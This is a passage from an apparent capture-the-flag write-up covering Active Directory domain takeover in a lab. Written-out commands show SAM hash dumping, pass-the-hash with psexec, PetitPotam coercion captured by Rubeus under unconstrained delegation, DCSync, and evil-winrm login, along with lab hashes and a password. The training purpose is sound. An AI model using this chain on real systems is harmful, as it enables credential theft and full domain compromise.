
With the two hives obtained, I will now run secretsdump locally to extract NTLM hashes of all users on the domain.
impacket-secretsdump -system system -sam sam local

administrator | 6963aad8ba1150192f3ca6341355eb49
And now with the hash in my hands, I'll run psexec to obtain a SYSTEM shell.
psexec.py darkzero.ext/administrator@DC02.darkzero.ext -hashes ":6963aad8ba1150192f3ca6341355eb49"

(Yes, I am aware that this is an awfully roundabout way and that the system shell could have been obtained with GodPotato way quicker... But this was quite a fun self-imposed challenge!)
Root flag

While examining the newly-pwned DC, I noticed that it had the TrustedForDelegation property set to true. This means that whenever someone or something authenticates to this DC, it will receive a TGT alongside the Service Ticket for said user. This TGT is then stored in LSASS memory... Which we can read with administrative access.
The key detail here is that the caching happens on inbound authentication. The flag doesn't proactively pull tickets, it just tells the KDC to include a forwardable TGT when someone authenticates to it, which is exactly why coercion techniques like PrinterBug or PetitPotam are so effective in this scenario: rather than waiting for organic authentication, an attacker can force a target to authenticate on demand and grab their TGT the moment it lands in memory.
Coercing DC01 to authenticate to DC02
It doesn't matter whether SMB/LDAP signing is enforced in this scenario, because I'm not going to be doing any sort of relaying. I'll run Rubeus in monitor mode on DC02, so that it'll capture every incoming ticket for me to read and examine.
.\Rubeus.exe monitor /nowrap /interval:5
After that is up and running, I'll coerce DC01 to authenticate to DC02 using netexec's coerce_plus module.
nxc smb 10.129.20.118 -u john.w -p 'RFulUtONCOL!' -M coerce_plus -o LISTENER=DC02.darkzero.ext METHOD=PetitPotam

Soon after coercing the authentication, Rubeus captures DC01's TGT and outputs it in base64. I'll copy this, and I'll save it into the DC01.kirbi file. At the same time, I'll convert the .kirbi ticket into .ccache, so that I can use it with impacket tools.

DCsync against DC01
Now I will use this ticket to perform a DCsync against DC01 itself.
impacket-secretsdump darkzero.htb/'DC01$'@DC01.darkzero.htb -k -no-pass

administrator | 5917507bdf2ef2c2b0a869a1cba40726
And as the final step, I'll connect to the DC as the administrator to grab the root flag.
evil-winrm-py -u administrator -H '5917507bdf2ef2c2b0a869a1cba40726' -i 10.129.20.232

Rooted!